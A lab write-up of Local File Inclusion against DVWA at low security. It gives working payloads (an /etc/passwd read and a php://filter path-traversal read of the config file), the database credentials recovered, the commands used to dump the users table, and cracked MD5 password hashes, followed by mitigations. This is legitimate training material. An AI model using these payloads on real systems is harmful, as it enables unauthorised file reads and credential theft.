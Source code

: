 
---

# File Inclusion – DVWA Low Security

## Objective
Demonstrate Local File Inclusion (LFI) and exploitation steps to retrieve sensitive files and database credentials.

---

## Methodology
Testing was performed on the File Inclusion (Low) page of DVWA. Input was submitted via the page parameter, which is directly passed into PHP’s include() function. Payloads were crafted to safely read system files and extract configuration data in a controlled lab environment.

Steps followed:
1. Confirm LFI vulnerability.
2. Read sensitive system files.
3. Extract DVWA configuration (database credentials).
4. Use credentials to access the database and dump user information.

---

## Exploitation Steps

---

<details> <summary>Step 1: Confirm LFI with /etc/passwd</summary>

**Payload:** /etc/passwd

**URL Encoded:** %2Fetc%2Fpasswd

**Observation:**
- Raw contents of /etc/passwd displayed on the page.
- Includes system users like root, www-data, mysql.
- Normal application logic should never reveal OS files.

**Impact:**
- Confirms Local File Inclusion vulnerability.
- Attackers can read arbitrary system files.

<img width="940" height="622" alt="image" src="https://github.com/user-attachments/assets/f1b61121-f4a7-4ca3-8ff7-05d5cd1c38c1" />


</details>

<details> <summary>Step 2: Extract DVWA Database Credentials</summary>

**Payload:** php://filter/convert.base64-encode/resource=../../config/config.inc.php

**URL Encoded:** php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D..%2F..%2Fconfig%2Fconfig.inc.php

**Observation:**
- DVWA configuration file returned as Base64.
- Decoding revealed database credentials:

$_DVWA['db_server']   = '127.0.0.1';

$_DVWA['db_database'] = 'dvwa';

$_DVWA['db_user']     = 'dvwa';

$_DVWA['db_password'] = 'p@ssw0rd';

**Impact:**
- Credentials allow direct access to DVWA database.
- Attacker can extract sensitive user information and escalate attacks.

<img width="940" height="642" alt="image" src="https://github.com/user-attachments/assets/2acee3b8-d00d-4d32-ac6c-4df384cbcce6" />


<img width="791" height="685" alt="image" src="https://github.com/user-attachments/assets/c10233d1-19bd-4c57-8a4d-96ef99125864" />

</details>

<details> <summary>Step 3: Log in to Database & Dump Users</summary>

**Steps:**

**Step 1:**
- Access MariaDB inside the Docker container:
docker exec -it <container_id> bash
mysql -u dvwa -p

**Step 2:**
- Switch to DVWA database
USE dvwa;
SHOW TABLES;

**Step 3:**
- Dump all users
SELECT * FROM users;

<img width="940" height="582" alt="image" src="https://github.com/user-attachments/assets/85bdeb40-85fc-451d-8adb-3f832c37d7c3" />


<img width="940" height="335" alt="image" src="https://github.com/user-attachments/assets/af39758e-1c03-466a-860c-629e822e26ba" />


**Observation:**
- Returned usernames, hashed passwords, and profile info.
- Example MD5 hashes:

admin: 5f4dcc3b5aa765d61d8327deb882cf99
gordonb: e99a18c428cb38d5f260853678922e03

- Decoded

| User    | MD5 Hash                         | Password |
| ------- | -------------------------------- | -------- |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | secret   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

**Impact:**
- Full access to all DVWA user accounts.
- MD5 hashes can be trivially cracked, exposing plaintext passwords.
- Demonstrates real-world risk of LFI leading to full database compromise.

  </details>

  ---
  
**Summary:**

- DVWA Low Security is vulnerable to LFI.
- Exploitation path:

Inject path via page parameter → read system files.

Extract DVWA database credentials using php://filter.

Use credentials to dump user accounts and passwords.

- Real-world implications: full compromise of sensitive data, credential theft, and potential application takeover.

  ---
**Recommendations/Mitigations:**
1. Validate and sanitize user input: never include files directly from untrusted input.
2. Disable LFI-sensitive PHP functions: disable allow_url_include, enforce open_basedir.
3. Set proper file permissions: restrict access to configuration files.
4. Use hashed passwords with salts: prevent trivial password retrieval.
5. Increase security levels in DVWA: test and prevent LFI exploitation at higher levels.

   ---
<img width="1316" height="131" alt="file_inclusion_flow" src="https://github.com/user-attachments/assets/ad48da1d-1313-4e5e-90fa-7800c9e45428" />


